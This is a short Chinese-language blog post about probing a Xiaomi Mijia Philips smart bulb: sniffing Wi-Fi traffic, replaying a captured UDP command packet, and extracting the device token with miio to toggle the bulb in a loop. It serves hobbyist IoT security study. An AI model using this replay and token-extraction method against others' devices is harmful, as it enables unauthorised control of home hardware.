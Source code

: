 ```yaml
---
title: 米家物联网设备初探-飞利浦睿智球灯泡
date: 2019-03-22 00:00:00
categories:
- IOT
tags: 米家 灯泡 IOT
---
```


根据[小米智能家居设备流量分析及脚本控制](https://www.freebuf.com/articles/terminal/181846.html)一文复现

## 设备说明

1. 飞利浦睿智球灯泡，[购买链接](https://item.mi.com/1172100033.html)
2. 小米6手机，通过米家app控制灯泡
3. 华为路由器，用于抓包
4. macbookpro，本机


## 灯泡启动

当灯泡首次通电是会放出一个wifi


## 抓取流量

利用mac自带的网卡抓取802.11协议的数据包还是有点费劲的，参考：[mac系统使用wireshark抓取无线网卡数据包以及常用过滤条件](https://blog.csdn.net/heyuqian_csdn/article/details/52599354)

```bash
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff 7
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
```

然后开wireshark，并设置psk，然后打掉所有设备


## udp重放

```python

import socket
import time

sock = socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
cmd = '21310060000000000330923a0000172d2b045ac30271b801215f7694d02743407686c558345b450a443a1f73467b8dcdb52808b854ea38656be486458766d892c1ca5b1322f9ad27e9974620b5576765c6d22f088a3c797e52c83e0d7ef40e1a'.decode('hex')
opencmd=''

for data1 in cmd:
	opencmd+=chr(int('{:08b}'.format(ord(data1)),2))
sock.sendto(opencmd,("192.168.8.108",54321))

```

## python-miio

```bash
brew install node
npm install -g miio
miio discover

ip.dst == 192.168.8.108➜  Desktop miio discover
 INFO  Discovering devices. Press Ctrl+C to stop.
Device ID: 53514810
Model info: philips.light.bulb
Address: 192.168.4.1
Token: 4b614854a651b6d3f162196a477f7856 via auto-token
Support: At least basic
```

```python
from miio.philips_bulb import PhilipsBulb
import time

ip='192.168.8.108'
token='4b614854a651b6d3f162196a477f7856'

bulb = PhilipsBulb(ip,token)

while(1):
    time.sleep(1)
    bulb.on()
    time.sleep(1)
    bulb.off()

```